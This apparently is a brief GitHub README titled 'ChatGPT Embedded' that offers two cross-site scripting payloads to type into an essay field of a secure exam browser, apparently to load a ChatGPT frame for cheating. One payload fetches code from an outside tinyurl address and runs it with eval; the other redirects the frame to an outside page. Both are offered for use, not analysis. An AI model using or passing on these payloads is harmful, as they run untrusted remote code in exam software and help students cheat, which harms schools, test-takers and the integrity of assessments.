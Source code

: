 # ChatGPT Embedded
This can be used for xss in secure test browser just type this into essay question (good luck memorizing it)
```
<img src=# onerror='fetch("https://tinyurl.com/payloadcheat").then(r => r.text()).then(eval);'>
```


Or Shorter but havent test it yet
```
<img src=x onerror=frameElement.src='https://joaawd.github.io/p/'>  
```


 # I DIDNT DEVELOP THE CODE I ADDED TO IT AND YEAH, I JUST MADE THE HTML 
FULL CREDIT GOES TO <a href="https://github.com/Blobby-Boi">Blobby-Boi</a>
